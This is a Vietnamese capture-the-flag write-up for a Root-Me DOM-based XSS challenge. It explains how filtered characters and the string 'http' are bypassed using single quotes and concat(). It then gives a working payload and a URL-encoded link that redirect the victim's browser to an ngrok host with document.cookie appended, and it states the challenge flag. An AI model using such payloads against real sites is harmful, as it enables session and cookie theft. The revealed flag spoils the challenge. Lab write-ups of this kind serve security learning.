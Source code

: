 # XSS DOM Based - Filters Bypass
## Solution

Ban đầu  challenge yêu cầu nhập 1 số từ 0 đến 100.


![image](https://user-images.githubusercontent.com/86184794/161006421-6e5d14d3-218f-471d-b5ad-8c952e21ead6.png)

Em thử nhập số 19 thì em được kết quả



![image](https://user-images.githubusercontent.com/86184794/161006517-d8ad7b74-edb7-4789-8807-382fb8e79bf3.png)

Kết quả thông báo rắng input đúng phải là 81.72522614408169


Em thử dùng kết quả này  nhập lại thử

![image](https://user-images.githubusercontent.com/86184794/161006756-8b53b8e4-0bfc-4ba5-9f80-c3da18d6c900.png)


Thì kết quả lại thay  đổi. Vì vậy với định dạng mật khẩu là số thập phân như thế này để đón đúng mật khẩu là điều không thể.

![image](https://user-images.githubusercontent.com/86184794/161007203-54e6a01b-c177-4baf-af74-cc281aa16d16.png)

Em vào DOM Element thì phát hiện đoạn code javacript này. Theo đoạn code này thì khi chúng ta có đoán đúng được mât khẩu thì cũng không có flag. Do đó em sẽ nghĩ tới một hướng khai thác khác là biến number, vì em thấy biến này lưu giá trị mà ta nhập vào.

Qua quá trình test thì em xác định được một số kí tự em cần đã bị lọc đi như ",+,http. Nhưng em có thể thay các kí tự này bằng kí tự khác hoặc bằng hàm có chức năng tương tự.

Ví dụ:

Dấu " có thể thay bằng dấu '

Dấu + thay bằng hàm concat() ở đây input không lọc dấu ()

Chữ http thì em có thể tách ra xong dùng hàm concat để nối lại ví dụ như này 'ht'.concat('tp')

Như vậy ta thực hiện nhập input vào để lừa lấy cookie của server gửi về server ảo của chúng ta.

Payload:

```
'.concat(document.location='ht'.concat('tp://fbca-123-21-33-242.ngrok.io?cookie=').concat(document.cookie)) //
```

Sau convert chuỗi payload này sang url thay giá trị number bằng đường link ta vừa convert

![image](https://user-images.githubusercontent.com/86184794/161013461-3762494f-cad7-4b50-8e99-1a2cb9ff16dc.png)

```
http://challenge01.root-me.org/web-client/ch33/index.php?number=%27.concat%28document.location%3D%27ht%27.concat%28%27tp%3A%2F%2Ffbca-123-21-33-242.ngrok.io%3Fcookie%3D%27%29.concat%28document.cookie%29%29%20%2F%2F
```
Submit link này trong tab contact.

![image](https://user-images.githubusercontent.com/86184794/161013657-f3e9b7a3-f0c3-4207-8737-fe8b1b72118c.png)


Kết quả:

![image](https://user-images.githubusercontent.com/86184794/161013734-279615e2-090c-4f92-bb33-14ab59907d94.png)


Flag: rootme{FilTERS_ByPass_DOm_BASEd_XSS}
